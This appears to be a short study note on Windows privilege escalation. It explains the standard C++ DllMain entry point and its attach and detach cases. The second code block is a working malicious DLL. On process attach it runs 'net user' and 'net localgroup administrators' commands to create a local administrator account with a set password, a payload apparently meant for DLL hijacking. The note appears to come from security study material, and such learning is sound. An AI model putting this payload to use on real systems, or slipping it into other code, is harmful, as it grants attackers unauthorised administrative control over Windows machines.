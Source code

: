 > C++ is a high-level, general-purpose programming language created by Danish computer scientist Bjarne Stroustrup.


#Windows_Privilege_Escalation 

Basic DLL C++ boilerplate code from Microsoft
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Each DLL can have an optional _entry point function_ named _DllMain_, which is executed when processes or threads attach the DLL. 
- This function generally contains four cases named: 
	- `DLL_PROCESS_ATTACH`
	- `DLL_THREAD_ATTACH`
	- `DLL_THREAD_DETACH`
	- `DLL_PROCESS_DETACH`
- These cases handle situations when the DLL is loaded or unloaded by a process or thread. 
- They are commonly used to perform initialization tasks for the DLL or tasks related to exiting the DLL. 
- If a DLL doesn't have a _DllMain_ entry point function, it only provides resources.

C++ DLL to add user to administrators local group 
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user hentaisalesman password123! /add");
  	    i = system ("net localgroup administrators hentaisalesman /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
- Since we use Windows specific data types such as `BOOL`, we need the `include` statement for the header file `windows.h`
